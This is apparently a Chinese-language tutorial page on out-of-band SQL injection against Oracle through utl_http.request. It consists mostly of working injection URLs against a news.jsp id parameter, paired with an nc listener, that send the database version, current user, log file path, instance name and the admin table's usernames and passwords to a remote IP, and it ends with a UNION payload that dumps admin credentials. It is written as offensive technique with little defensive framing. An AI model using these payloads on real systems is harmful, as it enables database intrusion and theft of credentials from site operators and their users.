

通过utl_http.request我们可以将查询的结果发送到远程服务器上，在遇到盲注时非常有用，要使用该方法用户需要有utl_http访问网络的权限。

## 1、检测是否支持utl_http.request

utl_http.request 页面正常 支持

```http
http://www.jsporcle.com/news.jsp?id=1 and exists (select count(*) from all_objects where object_name='UTL_HTTP') --
```

## 2、监听本地信息

```bash
nc -vvlp 2008
```

## 3、查询oracle版本信息

```http
http://www.jsporcle.com/news.jsp?id=1 and  utl_http.request('http://192.168.31.100:2008/'%7C%7C(select banner from sys.v_$version where rownum=1))=1--
```

and utl_http.request('http://域名或者ip:端口/'||(注入的语句))=1 -- 

注意|| 注意转码%7C%7C

 

- 当前用户 (select user from dual)
- 当前数据库版本 ( select banner from sys.v_$version where rownum=1)
- 服务器出口IP (用utl_http.request 可以实现)
- 服务器监听IP (select utl_inaddr.get_host_address from dual)
- 日志文件 (select member from v$logfile where rownum=1)
- 服务器sid  远程连接的话需要， (select instance_name from v$instance)
- 当前连接用户 (select SYS_CONTEXT ('USERENV', 'CURRENT_USER')from dual)

## 4、查询系统用户

```http
http://www.jsporcle.com/news.jsp?id=1 and%20 utl_http.request('http://192.168.31.100:2008/'%7c%7c(select user from dual))=1--
http://www.jsporcle.com/news.jsp?id=1 and%20 utl_http.request('http://192.168.31.100:2008/'%7c%7c(select member from v$logfile where rownum=1))=1--
http://www.jsporcle.com/news.jsp?id=1%20and%20%20utl_http.request(%27http://192.168.31.100:2008/%27%7c%7c(select%20instance_name%20from%20v$instance))=1--
```

## 5、查询admin的帐号和密码

```http
http://www.jsporcle.com/news.jsp?id=1 and utl_http.request('http://192.168.31.100:2008/'%7c%7c(select username%7c%7cpassword from admin))=1--
```

 

```http
http://www.jsporcle.com/news.jsp?id=1 union select null,password,username from admin
```

 